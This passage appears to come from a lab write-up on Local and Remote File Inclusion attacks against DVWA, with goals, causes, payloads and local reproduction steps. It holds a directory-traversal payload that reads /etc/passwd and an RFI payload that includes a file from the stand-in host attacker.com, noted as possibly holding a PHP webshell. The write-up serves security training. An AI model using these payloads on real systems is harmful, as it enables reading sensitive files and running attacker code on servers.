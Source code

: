 
## 3. Attack scenarios

### A. Local File Inclusion (LFI)

**Goal:** Read sensitive files on the server (e.g., `/etc/passwd`, application configs, logs that may contain secrets).

**Why it works:** The application concatenates or directly uses an attacker-controlled `page` parameter in an `include()`/`require()` call without validating or canonicalizing the path.

### B. Remote File Inclusion (RFI)

**Goal:** Include a remote file containing attacker-supplied code (e.g., a PHP webshell) and execute it on the server. Example — attacker hosts a `csrf.html` or `shell.php` and causes the vulnerable app to `include()` it.

**Why it works (lab conditions):** `allow_url_include` or `allow_url_fopen` are enabled in PHP or the app directly fetches remote files and evaluates them.

---

## 4. Payloads you used

* **LFI (read `/etc/passwd`)** — URL parameter:

```
?page=../../../../../../etc/passwd
```

This performs directory traversal and includes `/etc/passwd` content into the page output.

* **RFI (include remote HTML / execute malicious code)** — attacker-hosted file `csrf.html` (or `shell.php`) and vulnerable include:

```
?page=http://attacker.com/csrf.html
```

`csrf.html` could contain HTML or JavaScript for CSRF or, if parsed as PHP on include, attacker-controlled PHP code (e.g., a webshell) if the server treats it as PHP.

---

## 5. Reproduction steps

**LFI reproduction:**

1. Set DVWA security to `low` and locate the file inclusion page (e.g., `vulnerabilities/fi/`).
2. In the `page` parameter supply the traversal payload:

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

3. The response contains `/etc/passwd` content if vulnerable.
